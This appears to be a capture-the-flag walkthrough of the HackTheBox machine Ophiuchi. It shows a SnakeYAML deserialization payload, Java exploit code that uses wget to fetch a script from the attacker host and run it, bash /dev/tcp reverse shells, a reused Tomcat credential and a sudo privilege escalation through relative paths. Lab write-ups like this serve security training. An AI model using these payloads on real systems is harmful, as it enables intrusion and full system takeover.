




# Ophiuchi: 10.10.10.227

## Hints

- Getting a foothold requires exploiting a known deserialization vulnerability in a Java YAML library - error messages and Google is your friend!
- Privesc to another user requires finding reused credentials on the target
- Privesc to root is very fun and unique - HackTricks has some good guidance on the method and tools that will help

## nmap

Starting with the usual `nmap` scan. Interesting ports:

```none
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http    Apache Tomcat 9.0.38
```

Some strange nmap results with only ports 22 and 8080 being open. I already knew port 8080 was Tomcat, as I have been targeting a couple of Tomcat machines over the weekend.

## 8080: Recon

Browsing to port 8080, we find an interesting web app that is an "Online YAML parser".



Entering valid YAML (e.g., `Cat: Dog`) into the app gives an error message.

> Due to security reason this feature has been temporarily on hold. We will soon fix the issue!



With not much else to look at, ran a `gobuster`

```none
gobuster dir -t 20 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.10.227:8080 -o gobuster_80_root_medium.log
```

Some interesting results

- `manager`: A login to Tomcat Manager web app, which redirects to an error page when you enter non-valid creds.
- `yaml`: The apparently non-functional "Online YAML Parser" that we got on the webserver index page.
- `test`: Returns a 404 when you follow the redirection.

So, there is a manager web app admin panel for the Tomcat installation which we might want to get access to, but have no hints to follow... yet! So, headed back to the "Online YAML Parser" as it takes user input, and we may be able to mess with it! And we can! I entered an apostrophe character (`'`) and got a stack track from the web app. 



The error was about getting a special character while processing the input, and we get a few interesting details from the stack trace.

- The version of Tomcat is 9.0.38
- The library used for YAML parsing is `org.yaml.snakeyaml`

## YAML Deserialisation Exploit

Since Tomcat runs Java apps, it comes as no surprise that `snakeyaml` is a YAML parser for Java. The project has a [BitBucket](https://bitbucket.org/asomov/snakeyaml/src/master/) page, and a [Wiki](https://bitbucket.org/asomov/snakeyaml/wiki/Documentation). Started looking for exploits. Thought it was unlikely to get something for Tomcat, as version 9 is pretty new. So targeted `snakeyaml`. Doing a search for `snakeyaml exploit` found some interesting resources. Top of the list was an article entitled [SnakeYaml Deserilization exploited](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858).

The basic premise is how YAML is processed when no sanitization of user input is performed, and how the parser is configured to read the YAML input. Using the payload below, we can get remote code execution. I did a POC test, by setting up a Python HTTP server and attempting a connection back to it to find the fictitious `meow.txt` file.


```none
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.5:8000/meow.txt"]
  ]]
]
```

And got a hit on my Python HTTP server.

```none
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.227 - - [15/Aug/2021 10:36:05] code 404, message File not found
10.10.10.227 - - [15/Aug/2021 10:36:05] "GET /meow.txt HTTP/1.1" 404 -
```

Following along with the YAML deserialization article, we get a link to a [`yaml-payload` by artsploit](https://github.com/artsploit/yaml-payload). The project is simple and allows us to edit some Java code, compile the code, and create a JAR file that will run on the target server.

I started by installing OpenJDK on my Kali machine, as it was not available by default on the normal Kali installation (without all tools installed).

```none
sudo apt install -y default-jdk
```

Next, download the `yaml-payload` repo from GitHub.

```none
git clone https://github.com/artsploit/yaml-payload.git
```

If we have a look at the only file - `AwesomeScriptEngineFactory.java` - there are a couple of lines (12 and 13) that we can use as an example and modify to execute some code.

```java
Runtime.getRuntime().exec("dig scriptengine.x.artsploit.com");
Runtime.getRuntime().exec("/Applications/Calculator.app/Contents/MacOS/Calculator");
```

Looks like we can edit this to run the commands we want, most likely a reverse shell to get a foothold on the server. I haven't done much Java in a while, so getting this to work took a little trial and error. Here are a couple of things I tried.

- Using a bash reverse shell
- Using a netcat reverse shell

None of these worked. I was thinking it was most likely due to some special character issues. Then I checked the Java reverse shell options from the [Reverse Shell Cheat Sheet on Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#java). This seemed to be very similar to the previous reverse shell attempts, and they also didn't work. I tried both the payload options. For example, the payload below.

```none
Runtime r = Runtime.getRuntime();
Process p = r.exec("/bin/bash -c 'exec 5<>/dev/tcp/10.10.14.5/9001;cat <&5 | while read line; do $line 2>&5 >&5; done'");
p.waitFor();
```

The next thing I checked was running a `wget` on a non-existent file on my system - similar to how we tried to fetch the `meow.txt` before. I could tell from this attempt that we could fetch the file from our machine - as I could see the 200 response on my Python HTTP server. The next idea I had was to avoid using special characters by uploading the reverse shell, then executing it on the target. This would remove the problematic characters from the Java source code.

Started by creating a simple bash reverse shell in a file named `rev.sh`.

```none
echo "bash -c 'bash -i >& /dev/tcp/10.10.14.5/9001 0>&1'" > rev.sh
```

Then modified the Java exploit file.

```none
vim src/artsploit/AwesomeScriptEngineFactory.java
```

Here is the final block of code I used.

```java
public AwesomeScriptEngineFactory() {
    try {
        Process p = Runtime.getRuntime().exec("wget http://10.10.14.5:8000/exploits/rev.sh -O /tmp/rev.sh");
        p.waitFor();
        p = Runtime.getRuntime().exec("bash /tmp/rev.sh");
    } catch (IOException | InterruptedException e) {
        e.printStackTrace();
    }
}
```

The main flow of the code is:

- Fetch the `rev.sh` file from the webserver (port 8000, in the folder named `exploits`) and save it in the `/tmp` folder on the target
- Run the `rev.sh` on the target from the `/tmp` folder using `bash`
- Needed to add in another exception to the `catch` clause of `InterruptedException` so the code would compile

After modifying the code, we can use the info on the project page to compile the project.

```none
javac src/artsploit/AwesomeScriptEngineFactory.java
```

And finally, make a JAR file.

```none
jar -cvf yaml-payload.jar -C src/ .
```

At this point, I had a `rev.sh` and `yaml-payload.jar` file in my `exploits` directory. I started a Python HTTP webserver and ran a modified exploit against the "Online YAML Parser" project.

```none
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.5:8000/exploits/yaml-payload.jar"]
  ]]
]
```

I could see both requests on my Python HTTP server.

```none
└─$ python3 -m http.server                                            
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.227 - - [15/Aug/2021 11:00:07] "GET /exploits/yaml-payload.jar HTTP/1.1" 200 -
10.10.10.227 - - [15/Aug/2021 11:00:07] "GET /exploits/yaml-payload.jar HTTP/1.1" 200 -
10.10.10.227 - - [15/Aug/2021 11:00:08] "GET /exploits/rev.sh HTTP/1.1" 200 -
```

And... got a reverse shell on my netcat listener!

```none
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.227] 38254
bash: cannot set terminal process group (787): Inappropriate ioctl for device
bash: no job control in this shell
tomcat@ophiuchi:/$ id
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
```

## Privesc: `tomcat` to `admin`

Ran some linpeas while enumerating manually. I was kind of proud that I found the `tomcat-users.xml` file without relying on linpeas results. Think I am getting better at Tomcat! Anyway, here is the linpeas output.

```none
╔══════════╣ Analyzing Tomcat Files (limit 70)
-rw-r----- 1 root tomcat 2234 Dec 28  2020 /opt/tomcat/conf/tomcat-users.xml                                        
<user username="admin" password="whythereisalimit" roles="manager-gui,admin-gui"/>
  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
  <user username="role1" password="<must-be-changed>" roles="role1"/>
```

This file is located in `/opt/tomcat/conf`, and gave us some credentials for a user named `admin`. Looking at the `/home` directory and the `/etc/passwd` file, we can see a user with a shell named `admin`. Coincidence?! Having a quick look at the `ssd_config` file, we can see that password logins are enabled, so tried to log in with the discovered credentials.

```none
└─$ ssh admin@10.10.10.227
The authenticity of host '10.10.10.227 (10.10.10.227)' can't be established.
ECDSA key fingerprint is SHA256:OmZ+JsRqDVNaBWMshp7wogZM0KhSKkp1YmaILhRxSY0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.227' (ECDSA) to the list of known hosts.
admin@10.10.10.227's password: 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-51-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 14 Aug 2021 11:21:51 PM UTC

  System load:             0.03
  Usage of /:              20.0% of 27.43GB
  Memory usage:            19%
  Swap usage:              0%
  Processes:               221
  Users logged in:         0
  IPv4 address for ens160: 10.10.10.227
  IPv6 address for ens160: dead:beef::250:56ff:feb9:b6a1


176 updates can be installed immediately.
56 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Jan 11 08:23:12 2021 from 10.10.14.2
admin@ophiuchi:~$ id
uid=1000(admin) gid=1000(admin) groups=1000(admin)
```

Success! And the user flag.

```none
admin@ophiuchi:~$ wc -c user.txt 
33 user.txt
```

## Privesc: `admin` to `root`

As usual, started running linpeas while doing some manual enumeration. Right off the bat, found an interesting `sudo` entry.

```none
admin@ophiuchi:~$ sudo -l
Matching Defaults entries for admin on ophiuchi:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User admin may run the following commands on ophiuchi:
    (ALL) NOPASSWD: /usr/bin/go run /opt/wasm-functions/index.go
```

I have not had much experience with Golang, so this might be exciting! Looks like `go` is being called on a specific file in `/opt/wasm-functions/` called `index.go`. From my knowledge, this is not a compiled Golang executable, rather a source code file that is getting executed from raw code.

Looking at the permissions of the file, we can read the file... but not modify it.

```none
admin@ophiuchi:~$ ls -lisa /opt/wasm-functions/index.go
1321998 4 -rw-rw-r-- 1 root root 522 Oct 14  2020 /opt/wasm-functions/index.go
```

The file is quite small - just 30 lines. I have included it below for reference.

```go
package main

import (
        "fmt"
        wasm "github.com/wasmerio/wasmer-go/wasmer"
        "os/exec"
        "log"
)


func main() {
        bytes, _ := wasm.ReadBytes("main.wasm")

        instance, _ := wasm.NewInstance(bytes)
        defer instance.Close()
        init := instance.Exports["info"]
        result,_ := init()
        f := result.String()
        if (f != "1") {
                fmt.Println("Not ready to deploy")
        } else {
                fmt.Println("Ready to deploy")
                out, err := exec.Command("/bin/sh", "deploy.sh").Output()
                if err != nil {
                        log.Fatal(err)
                }
                fmt.Println(string(out))
        }
}
```

Doing some research I found the Go package that was not part of the standard library - the [`wasmer` package](https://github.com/wasmerio/wasmer-go). This package seems like it is used for WebAssemly... not sure what that was?! Looking at the [WebAssembly MDN page](https://developer.mozilla.org/en-US/docs/WebAssembly), they provide a nice summary.

> WebAssembly is a new type of code that can be run in modern web browsers — it is a low-level assembly-like language with a compact binary format that runs with near-native performance and provides languages such as C/C++, C# and Rust with a compilation target so that they can run on the web. It is also designed to run alongside JavaScript, allowing both to work together.

If we skip past all the technical stuff, we can see that there is a point in the program where something is deployed using the `deploy.sh` file. When the result of the program initialization equals 1, this bash script is run. It seems like the return value is based on the `main.wasm` file, which is read then an instance created. If we run the program now - we can see it doesn't get to the "Ready to deploy" part.

```none
admin@ophiuchi:/opt/wasm-functions$ sudo /usr/bin/go run /opt/wasm-functions/index.go
Not ready to deploy
```

Luckily for us, both the `main.wasm` and `deploy.sh` files are not called using an absolute path, so we can run the command from a different directory and use our own modified `main.wasm` and `deploy.sh` files. This is important, as the `admin` user cannot modify either of these files. The premise:

- Modify `main.wasm` to return `1`
- Modify the `deploy.sh` script to run something we want
- Put both files in a different folder, e.g., `/tmp`
- Run the existing allowed `sudo` command from the different folder

Luckily, for a WebAssembly noob like me, [HackTricks has an article on Wasm decompiler / Wat compiler](https://book.hacktricks.xyz/reversing/reversing-tools#wasm-decompiler-wat-compiler). FYI - I figured we needed to decompile, as the `main.wasm` file is binary! 

```none
admin@ophiuchi:/opt/wasm-functions$ file main.wasm 
main.wasm: WebAssembly (wasm) binary module version 0x1 (MVP)
```

HackTricks told me I could decompile the wasm file to clear text using the [wasm2wat](https://webassembly.github.io/wabt/demo/wasm2wat/index.html) online tool. I saved the `main.wasm` file from the target machine to mine and uploaded it to this online tool.



As you can see in the screenshot - there is an interger with the value of `0` being returned. I changed this value to `1`, so that we always return `1`. I have included the decompile code snippet below:

```none
(module
  (type $t0 (func (result i32)))
  (func $info (export "info") (type $t0) (result i32)
    (i32.const 1))
  (table $T0 1 1 funcref)
  (memory $memory (export "memory") 16)
  (global $g0 (mut i32) (i32.const 1048576))
  (global $__data_end (export "__data_end") i32 (i32.const 1048576))
  (global $__heap_base (export "__heap_base") i32 (i32.const 1048576)))
```

At this point, we can use the [wat2wasm](https://webassembly.github.io/wabt/demo/wat2wasm/) tool to convert the code we just modified back to a binary wasm file! Magic! I copy-pasted the code into the "WAT" section and downloaded the wasm file using the Download button. It was saved, by default, as `test.wasm` - so I renamed it to `main.wasm`.


The next step is to create something to replace the `deploy.sh` script. I used a reverse shell as it seemed the easiest - but there are many options here to elevate privilege to root.

```none
echo "bash -c 'bash -i >& /dev/tcp/10.10.14.5/9001 0>&1'" > deploy.sh
```

In the next step, we need to copy the `main.wasm` and `deploy.sh` files to the server. I choose to save both in the `/tmp` folder.

```none
admin@ophiuchi:/opt/wasm-functions$ cd /tmp/
admin@ophiuchi:/tmp$ wget http://10.10.14.5:8000/deploy.sh
--2021-08-15 00:00:04--  http://10.10.14.5:8000/deploy.sh
Connecting to 10.10.14.5:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 51 [text/x-sh]
Saving to: ‘deploy.sh’

deploy.sh                    100%[==============================================>]      51  --.-KB/s    in 0s      

2021-08-15 00:00:04 (6.30 MB/s) - ‘deploy.sh’ saved [51/51]

admin@ophiuchi:/tmp$ wget http://10.10.14.5:8000/main.wasm
--2021-08-15 00:00:10--  http://10.10.14.5:8000/main.wasm
Connecting to 10.10.14.5:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 523 [application/wasm]
Saving to: ‘main.wasm’

main.wasm                    100%[==============================================>]     523  --.-KB/s    in 0.004s  

2021-08-15 00:00:10 (138 KB/s) - ‘main.wasm’ saved [523/523]
```

With both modified files uploaded to the target, enter the `tmp` directory (where we saved the modified file) and run the `sudo` command.

```none
admin@ophiuchi:/tmp$ sudo /usr/bin/go run /opt/wasm-functions/index.go
Ready to deploy
```

Since we ran a reverse shell, the console hangs. But if we navigate to our netcat listener, we can see we got a connection back, and are the root user.

```none
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.227] 38282
root@ophiuchi:/tmp# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ophiuchi:/tmp# wc -c /root/root.txt
wc -c /root/root.txt
33 /root/root.txt
```

Done!

## Lessons Learned

- Getting better at focusing on likely targets and finding exploits using a combination of `searchsploit` and Google
- Remember, again! - uploading a shell in a script is a good way to avoid character encoding errors when getting a reverse shell
- Modifying the existing code might be easier than making an entire new file - this was apparent when doing the privesc to root using the `main.wasm` file

## Useful Resources

- [HackTheBox - Ophiuchi by ippsec](https://www.youtube.com/watch?v=9-AQQkJA1X4)
- [HTB: Ophiuchi by 0xdf](https://0xdf.gitlab.io/2021/07/03/htb-ophiuchi.html)
